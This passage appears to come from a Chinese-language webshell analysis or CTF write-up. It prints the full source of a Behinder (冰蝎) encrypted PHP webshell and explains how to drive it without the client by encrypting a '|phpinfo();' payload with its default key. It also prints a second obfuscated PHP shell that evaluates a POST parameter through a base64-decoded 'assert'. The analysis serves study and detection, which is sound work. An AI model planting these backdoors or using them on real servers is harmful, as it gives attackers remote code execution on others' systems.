 #### 2 
是冰蝎加密shell
[冰蝎动态二进制加密WebShell特征分析](https://www.freebuf.com/articles/web/213905.html)
[“冰蝎”动态二进制加密网站管理客户端 – WebShell管理工具](https://www.uedbox.com/post/51031/)

```php
<?php
@error_reporting(0);
session_start();
    $key="e45e329feb5d925b"; //该密钥为连接密码32位md5值的前16位，默认连接密码：rebeyond
    $_SESSION['k']=$key;
    $post=file_get_contents("php://input");
    if(!extension_loaded('openssl'))
    {
        $t="base64_"."decode";
        $post=$t($post."");

        for($i=0;$i<strlen($post);$i++) {
                 $post[$i] = $post[$i]^$key[$i+1&15]; 
                }
    }
    else
    {
        $post=openssl_decrypt($post, "AES128", $key);
    }
    $arr=explode('|',$post);
    $func=$arr[0];
    $params=$arr[1];
    class C{public function __invoke($p) {eval($p."");}}
    @call_user_func(new C(),$params);
?>
```

不用工具的利用方式：
分析一下代码，如果我们访问方式为POST时，post变量的值为我们的POST的数据，之后再次进行判断，如果存在openssl拓展组件，执行else之后的内容即

```php
$post=openssl_decrypt($post, "AES128", $key);
```

这是属于一个解密的函数，我们可以使用代码中获取的key对我们的POST的变量进行加密，之后在传输到此处后进行解密，下一步看一下我们需要传输的数据，\$arr处利用“|”进行了数组拆分，并在之后利用call_user_function调用执行shell，所以我们需要传输的数据为，“|”+代码，构造一下

```php
$post="|phpinfo();";
$key="e45e329feb5d925b";
$post=openssl_encrypt($post, "AES128", $key);
print_r($post);
//vACvqxX9t64+Nc3M2S4VuQ==
```
#### 3

```php
<?php 
error_reporting(0);
set_time_limit(0);
$a=base64_decode("Y"."X"."N"."z"."Z"."X"."J"."0");
$a(@${"_P"."O"."S"."T"}[520]); ?>
```
